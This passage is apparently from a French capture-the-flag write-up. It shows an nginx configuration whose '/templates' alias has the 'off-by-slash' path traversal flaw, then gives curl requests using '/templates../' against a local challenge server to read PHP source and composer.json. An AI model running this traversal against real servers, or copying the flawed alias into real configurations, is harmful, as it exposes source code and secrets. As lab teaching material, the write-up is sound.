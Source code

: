 ```

$ / > template nginx
(ﾉ◕ヮ◕)ﾉ*:･ﾟ✧ `nginx.conf` sent.

```

_nginx.conf_
```conf
server {
    index index.php index.html;
    error_log  /var/log/nginx/error.log;
    access_log /var/log/nginx/access.log;
    root /var/www/html/;

    # ...

    location /templates {
        error_page 404 /404;
        alias /var/www/html/templates/;
    }

    location / {
        root /var/www/html/public;
        try_files $uri /index.php$is_args$args;

        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_split_path_info ^(.+\.php)(/.+)$;
            fastcgi_pass php-fpm:9000;
            fastcgi_index index.php;
            include fastcgi_params;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param PATH_INFO $fastcgi_path_info;
        }
    }
}
```

_Je vous recommande fortement les travaux d'Orange Tsai, en particulier la partie "Nginx off-by-slash fail" de la conférence [Take Your Path Normalization Off and Pop 0days Out](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)_

Cette configuration Nginx est faillible au Path Traversal. Il est possible de récupérer des fichiers et surtout le code source PHP.

```console
pun@ctf:~$ curl 'http://127.0.0.1:40001/templates../public/index.php'
<?php

require_once __DIR__ . '/../vendor/autoload.php';

?>

pun@ctf:~$ curl 'http://127.0.0.1:40001/templates../composer.json'
{
    "require": {
        "moxxie/moxrouter": "^0.2.0"
    },
    "autoload": {
        "files": [
            "includes/config.php",
            "includes/classes/Utils.php",
            "includes/modules/Sha1img.php",
            "includes/routes.php"
```
